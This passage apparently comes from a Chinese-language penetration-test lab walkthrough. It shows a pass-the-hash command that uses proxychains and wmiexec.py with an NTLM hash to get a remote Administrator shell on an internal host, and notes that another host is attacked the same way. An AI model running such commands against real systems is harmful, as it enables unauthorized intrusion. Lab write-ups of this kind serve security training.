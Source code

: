 还有一个主机`PC1`也是同理，改下 IP 即可

```plain
proxychains python3 wmiexec.py -hashes :c3cfdc08527ec4ab6aa3e630e79d349b Administrator@172.22.60.8 -codec gbk
```

[![](assets/1706846898-0d35601447175b15b86bb4e25e9f77d1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131214349-c360fe16-c03e-1.png)
